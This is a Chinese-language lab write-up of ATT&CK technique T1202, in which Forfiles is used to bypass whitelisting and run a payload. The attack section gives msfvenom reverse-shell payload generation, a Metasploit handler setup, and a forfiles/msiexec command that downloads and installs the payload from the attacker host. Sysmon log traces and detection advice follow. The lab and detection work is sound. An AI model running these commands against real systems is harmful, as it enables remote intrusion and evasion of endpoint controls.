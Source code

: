 # T1202-win-间接命令执行-基于Forfiles执行payload(白名单)

## 来自ATT&CK的描述

可以使用各种Windows实用程序来执行命令，而不需要调用cmd。例如，Forfiles、程序兼容性助手（pcalua.exe）、WSL（WindowsSubsystem for Linux）组件以及其他实用程序可以从命令行界面、运行窗口或通过脚本来调用程序和命令的执行。

攻击者可能会滥用这些功能来规避防御，尤其是在破坏检测和/或缓解控制（如组策略）的同时执行任意动作。（这些控制限制/阻止了cmd或恶意负载相关文件扩展名的使用。）

## 测试案例

Forfiles为Windows默认安装的文件操作搜索工具之一，可根据日期，后缀名，修改日期为条件。常与批处理配合使用。

微软官方文档：

<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753551(v=ws.11)>

说明：Forfiles.exe所在路径已被系统添加PATH环境变量中，因此，Forfiles命令可识别，需注意x86，x64位的Forfiles调用。

Windows 2003 默认位置：

C:\WINDOWS\system32\forfiles.exe C:\WINDOWS\SysWOW64\forfiles.exe

Windows 7 默认位置：

C:\WINDOWS\system32\forfiles.exe C:\WINDOWS\SysWOW64\forfiles.exe

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### 生成payload

```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.126.146 LPORT=8888 -f msi > abc.txt
```

#### MSF配置

```bash
msf5 exploit(multi/handler) > back
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 8888
lport => 5555
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
forfiles /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.126.146/abc.txt"
```

#### 反弹shell

反弹shell失败！！！但不影响后续分析

## 测试留痕

```log
#sysmon日志
EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:27:08.447
ProcessGuid: {bb1f7c32-2a5c-5e9b-0000-0010b3101d00}
ProcessId: 588
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: /q /i http://192.168.126.146/abc.txt
CurrentDirectory: C:\Windows\system32\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020b86d0600}
LogonId: 0x66db8
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-2a5c-5e9b-0000-00100a101d00}
ParentProcessId: 1220
ParentImage: C:\Windows\System32\forfiles.exe
ParentCommandLine: forfiles  /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.126.146/abc.txt"


#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x4c4
新进程名: C:\Windows\System32\forfiles.exe
```

## 检测规则/思路

无具体检测。监控和分析基于主机的检测机制（如Sysmon）中的日志来查看事件，比如查看是否有进程创建事件（创建过程中使用了参数来调用程序/命令/文件和/或生成子进程/网络连接，或者该创建是由这些参数导致的）。

## 相关TIP
[[T1202-win-基于白名单Pcalua执行payload]]

## 参考推荐

MITRE-ATT&CK-T1202

<https://attack.mitre.org/techniques/T1202/>

基于白名单Forfiles执行payload

<https://www.bookstack.cn/read/Micro8/Chapter1-81-90-84_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Forfiles%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%8D%81%E5%9B%9B%E5%AD%A3.md>
